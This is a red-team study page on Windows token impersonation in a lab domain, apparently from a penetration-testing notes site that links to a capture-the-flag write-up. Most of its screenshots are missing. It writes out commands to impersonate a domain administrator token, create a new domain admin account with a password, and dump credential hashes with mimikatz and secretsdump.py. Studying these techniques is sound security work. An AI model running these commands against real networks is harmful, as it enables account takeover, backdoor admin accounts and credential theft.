 # 🗼 Token Impersonation

Nice page about token impersonation with example:

{% content-ref url="../../../../red-team/technical-knowledge/privilege-escalation/windows/impersonation-and-potato-attacks.md" %}
[impersonation-and-potato-attacks.md](../../../../red-team/technical-knowledge/privilege-escalation/windows/impersonation-and-potato-attacks.md)
{% endcontent-ref %}

<figure><img src="../../../../.gitbook/assets/image (21) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

This technique that allows an attacker to steal the access token of a logged-on user on the system without knowing their credentials and impersonate them to perform operations with their privileges.

There are two types of tokens related to the token impersonation technique —&#x20;

**Delegation and Impersonation**:

Delegation refers to the process of granting permissions or access rights to a user or service, allowing them to act on behalf of another user or service.

Impersonation, on the other hand, refers to the process of a user or service pret to be another user or service in order to gain access to resources.&#x20;

<figure><img src="../../../../.gitbook/assets/image (23) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can now impersonate this user

<figure><img src="../../../../.gitbook/assets/image (18) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Attempt to dump hashes as non-Domain Admin with mimikatz->

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1)  (16).png" alt=""><figcaption></figcaption></figure>

If we had a domain admin token available, we could impersonate it like this:

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1)   (3).png" alt=""><figcaption></figcaption></figure>

First you spot the token

```
impersonate_token MARVEL\\administrator
```

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) ( (6).png" alt=""><figcaption></figcaption></figure>

we could now try to dump hashes as domain admin with mimikatz:

<figure><img src="../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

that would give the following output:

<figure><img src="../../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If we found some way to impersonate a domain admin account, we could use remote commands to go further:

```
net user /add felix Mot2pAsse /domain
net group "Domain Admins" felix /ADD /DOMAIN
```

The first command, `net user /add felix Mot2pAsse /domain`, creates a new user account named "felix" with the password "Mot2pAsse" on the Windows domain. This command creates a new security principal in the domain, which can be used to authenticate and authorize access to resources.

The second command, `net group "Domain Admins" felix /ADD /DOMAIN`, adds the user "felix" to the "Domain Admins" group on the Windows domain. This group is a built-in group that is granted administrative privileges on the domain, allowing members to manage domain-wide settings and resources. By adding the user "felix" to this group, you are granting them administrative privileges on the domain.

And if this user add is successful, we could go and run secretsdump.py ->

```
secretsdump.py MARVEL.local/felix:'Mot2pAsse'@10.10.14.94
```

It would look something like this:

<figure><img src="../../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Example in this box:

{% content-ref url="../../../../capture-the-flags/active-directory-and-networks/sauna.md" %}
[sauna.md](../../../../capture-the-flags/active-directory-and-networks/sauna.md)
{% endcontent-ref %}
